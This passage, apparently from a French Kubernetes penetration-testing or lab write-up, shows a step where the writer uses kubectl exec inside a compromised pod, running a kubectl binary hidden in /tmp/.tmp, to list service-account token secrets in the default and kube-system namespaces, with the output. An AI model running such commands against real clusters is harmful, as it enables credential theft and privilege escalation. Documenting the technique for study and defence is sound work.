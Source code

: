 ```
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

Oui ! Grâce à la permission ’secrets’ On peut maintenant lister et  piller les secrets des deux namespaces, ’default’ et ’kube-system’.

```
$ ./kubectl exec dev-57f659f775-4wr9p -- /tmp/.tmp/kubectl get secrets --namespace=default
NAME                           TYPE                                  DATA   AGE
default-token-thvrd            kubernetes.io/service-account-token   3      94d
devaccount-token-kjr8n         kubernetes.io/service-account-token   3      94d
webserveraccount-token-v9fnm   kubernetes.io/service-account-token   3      94d
$ ./kubectl exec dev-57f659f775-4wr9p -- /tmp/.tmp/kubectl get secrets --namespace=kube-system
NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-cwtdw              kubernetes.io/service-account-token   3      94d
bootstrap-signer-token-5z4qw                     kubernetes.io/service-account-token   3      94d
certificate-controller-token-bp7dt               kubernetes.io/service-account-token   3      94d
clusterrole-aggregation-controller-token-ctnkr   kubernetes.io/service-account-token   3      94d
coredns-token-jgt4j                              kubernetes.io/service-account-token   3      94d
cronjob-controller-token-j47wz                   kubernetes.io/service-account-token   3      94d
daemon-set-controller-token-zqs9v                kubernetes.io/service-account-token   3      94d
default-token-6mxkk                              kubernetes.io/service-account-token   3      94d
deployment-controller-token-22wzx                kubernetes.io/service-account-token   3      94d
disruption-controller-token-62wcg                kubernetes.io/service-account-token   3      94d
endpoint-controller-token-vcndc                  kubernetes.io/service-account-token   3      94d
expand-controller-token-crkl8                    kubernetes.io/service-account-token   3      94d
flannel-token-jwvnh                              kubernetes.io/service-account-token   3      94d
generic-garbage-collector-token-2574p            kubernetes.io/service-account-token   3      94d
horizontal-pod-autoscaler-token-ttftk            kubernetes.io/service-account-token   3      94d
job-controller-token-jqwfw                       kubernetes.io/service-account-token   3      94d
kube-proxy-token-5vpm5                           kubernetes.io/service-account-token   3      94d
namespace-controller-token-zq24j                 kubernetes.io/service-account-token   3      94d
node-controller-token-9xhkh                      kubernetes.io/service-account-token   3      94d
persistent-volume-binder-token-m6k66             kubernetes.io/service-account-token   3      94d
pod-garbage-collector-token-kt78d                kubernetes.io/service-account-token   3      94d
pv-protection-controller-token-4tc4s             kubernetes.io/service-account-token   3      94d
pvc-protection-controller-token-bdr5x            kubernetes.io/service-account-token   3      94d
replicaset-controller-token-d5thb                kubernetes.io/service-account-token   3      94d
replication-controller-token-99znx               kubernetes.io/service-account-token   3      94d
resourcequota-controller-token-c7k8h             kubernetes.io/service-account-token   3      94d
service-account-controller-token-92sdh           kubernetes.io/service-account-token   3      94d
service-controller-token-b5q7z                   kubernetes.io/service-account-token   3      94d
statefulset-controller-token-psgwj               kubernetes.io/service-account-token   3      94d
token-cleaner-token-gjptt                        kubernetes.io/service-account-token   3      94d
ttl-controller-token-5h5rt                       kubernetes.io/service-account-token   3      94d
```

# Identification d’un compte privilégié
